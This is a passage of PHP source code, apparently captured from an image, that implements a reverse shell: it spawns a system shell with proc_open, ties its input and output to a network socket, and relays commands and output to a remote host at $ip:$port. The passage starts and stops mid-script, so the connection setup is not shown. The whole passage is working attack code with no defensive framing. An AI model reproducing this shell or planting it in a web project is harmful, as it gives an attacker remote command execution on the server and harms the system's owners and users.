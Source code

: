 ```php
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
```